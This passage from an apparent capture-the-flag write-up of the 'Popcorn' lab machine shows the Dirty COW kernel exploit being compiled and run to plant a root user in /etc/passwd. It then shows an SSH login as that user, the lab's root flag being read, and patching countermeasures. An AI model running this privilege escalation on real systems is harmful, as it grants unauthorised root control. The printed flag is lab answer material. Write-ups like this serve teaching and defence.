 Next, I compiled and ran it:

```none
www-data@popcorn:/dev/shm$ gcc -pthread 40839.c -o dirty -lcrypt
www-data@popcorn:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiKxInqPfoIPg:0:0:pwned:/root:/bin/bash

mmap: b7888000
```

At this point, I was able to login via SSH as the `firefart` user with the password I specified when running the exploit:

```none
$ ssh firefart@10.10.10.6
firefart@10.10.10.6's password:
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Sun Sep  6 23:06:02 EEST 2020

  System load: 1.06              Memory usage: 7%   Processes:       114
  Usage of /:  6.2% of 14.80GB   Swap usage:   0%   Users logged in: 1

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Sun Sep 24 18:01:48 2017
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~# cat /root/root.txt
f122331023a9393319a0370129fd9b14
firefart@popcorn:~#
```

As seen above, the `firefart` user had root privileges indicating a full compromise of the popcorn host.

## Countermeasures

* Update the torrent hoster software to the latest version currently available. If the software happens to be at the latest version, then patch the vulnerability where webshells can be uploaded as screenshots by spoofing the MIME type. Ideally, the file contents should be checked upon upload as well as filename extensions.
* Update the Linux PAM module to the latest version currently available so that privilege escalation via Linux PAM abuse (CVE-2010-0832) can be patched.
* Update the operating system to the latest version currently available so that it won't be vulnerable to the Dirty Cow privilege escalation exploit.
